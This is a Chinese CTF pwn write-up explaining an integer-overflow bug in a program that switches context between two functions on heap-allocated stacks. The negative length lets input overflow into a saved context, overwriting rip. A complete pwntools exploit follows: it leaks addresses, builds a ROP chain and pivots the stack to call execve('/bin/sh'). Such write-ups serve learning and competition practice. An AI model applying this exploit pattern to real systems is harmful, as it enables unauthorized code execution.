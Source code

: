 **我的思路**

这道题其实就是变了个花样的栈溢出，我先是分配了两个小的内存块用来存放线程切换时所需要使用的的（两个线程对分别应的）上下文，（就是比如func1对于的栈A，func2对于的栈B，即rsp，rbp来控制，以及存放函数返回地址的寄存器rip，以及其他的寄存器），（切换就是指从func1执行一段后跳到func2去了，这时就需要从func1的上下文切换到func2）；

这里的切换我写的一小段汇编来实现的，其实就是（save和restore）简单的将当前线程的上下文（相应寄存器内容）存放到参数指向的上下文结构体中，其中存放的函数返回地址就是call save时压栈的save函数返回地址（save），最后正常ret；而restore则是将其参数指向的上下文结构体给到当前线程的一些寄存器，返回地址也是在此操作中被压入到了stack的rsp处，即栈顶，最后执行ret，会直接跳转到这个地址去；（所以我们程序执行的第一个restore会直接跳转到func1）

然后我又在堆上分配出两块大内存分别给这两个线程（在这里就是两个函数）做函数调用栈（把函数调用栈搬到了堆上），比如函数里定义的变量就存在那了；

这个时候要想将这个程序的流程控制于自己手中，不妨能够想到在线程切换时（即func1中途跑路到func2），去修改掉那个上下文结构体中存放返回地址的rip，然后再restore的时候就自然控制程序流程啦

那么这个时候看看是否有机会去溢出该结构体， 显然通过观察就看出stack2和上下文结构体1是相邻的，哦，这之间也不存在检查，所以看看有无机会，之间从stack2“栈溢出”到这个结构体上去

仔细观察我们的func2，确实是有往stack2写数据的函数（read），长度还能自己控制，咋一看有个限制输入不得超过16，但是显然这里有一个整数溢出漏洞，因为后面的raed的length是int型，而定义的length和scanf的都是longlongint，且并没有检查负数问题，所以可直接输入负数，来绕过长度限制，从而达到溢出超长到目标地方去的目的

这个时候我就能思路清晰，首先程序保护全开，看似吓人，实则也是纸老虎，因为没多大用！你看看canary，这个在搬到堆上的栈，因为也是存在函数调用嘛，canary自然也会有！但是，问题在于我不是你函数的正常返回，所以无效，因为我是直接通过简单的汇编指令去切换线程的，所以似乎不会检查canary，所以直接正常覆盖即可！

那么此时，要想如何执行system之类的函数获取shell，首先程序没有此类函数，所以需要先泄露地址，泄露什么呢，通过观察程序，你可以发现本程序，友好的提供了好用的gadget，比如syscall，pop rax等等，那么你要用到这些gadget，就需要泄露程序基地址，用基地址加上gadget的后三位偏移就有了地址了；

此时又出现了新的问题，问题比较小，那就是我溢出位置似乎不够了，于是我浅浅的将“栈”迁移了到附近的一下下，具体看exp调试一下你就知道！

请务必自行调试观察

这只是我的思路，一种解题方式，相信你有更简单的解题方式！

**exp.py**

```python
from urllib.parse import ParseResultBytes#我也不知道什么时候有的这句话
from pwn import *

context.log_level = 'debug'
#p = remote('121.4.118.92',9336)
p = process('./a.out')
gdb.attach(p,"b restore")

p.recvuntil("Are you ready?\n")
p.sendline("yes")

# 1 func1
p.recvuntil("len:\n")
p.sendline(str(16))
p.recvuntil("input:\n")
p.send('a'*0x10)
p.recvuntil('a'*0x10)

leak = u64(p.recv(6).ljust(8,b'\x00')) #stack
log.info("leak = "+hex(leak))
fake_stack = leak + 0x60 
fake_rip = leak + 0x60

rsp = leak + 0x1000 - 0x1050
rbp = leak + 0x1000 - 0x1030
target_rip = leak + 0x1000 + 8

# 1 func2
p.recvuntil("len:\n")
p.sendline(str(-0x7FFFFFFFFFFFE000))
p.recvuntil("input:\n")
payload = ""
payload += (0xc0-0x40)*'b'
payload += 'c'*8
payload += 'c'*8
p.send(payload)

p.recvuntil('c'*16)
text = u64(p.recv(6).ljust(8,b'\x00'))
textbase = text - 0x236 - 0x10

log.info('leak text = '+hex(text))
log.info('text base = '+hex(textbase))

pop_rax_ret = textbase + 0x21c
pop_rdi_ret = textbase + 0x218
pop_rsi_ret = textbase + 0x21a
pop_rdx_ret = textbase + 0x216
syscall = textbase + 0x214
ret = textbase + 0x01a

fake_rsp = leak + 0x1000 # -->pop_rdx_ret
fake_rbp = leak + 0x1000
sh =leak + 0x50 + 0x1000

# 2 func2
#0x5574946b82c0:	0x00005574946b71f0	0x00005574946b7210
p.recvuntil("input:\n")
payload = b""
payload += b'd'*8   # in restore : mov    qword ptr [rsp], rdx  --> ret
payload += p64(pop_rdi_ret) + p64(sh)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(59) 
payload += p64(syscall)
payload += b"/bin/sh\x00"
payload = payload.ljust(0x80,b'a')
payload += p64(rsp)
payload += p64(rbp)
payload += p64(ret) # --> pop_rdi_ret
p.send(payload)

# 3 func2
p.recvuntil("input:\n")
payload = b"" 
payload += b'd'*8   #  in restore : mov    qword ptr [rsp], rdx  --> ret
payload += p64(pop_rdi_ret) + p64(sh)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(59)
payload += p64(syscall)
payload += b"/bin/sh\x00"
payload = payload.ljust(0x80,b'a')
payload += p64(fake_rsp)
payload += p64(fake_rbp)
payload += p64(ret)
p.send(payload)


p.interactive()
```

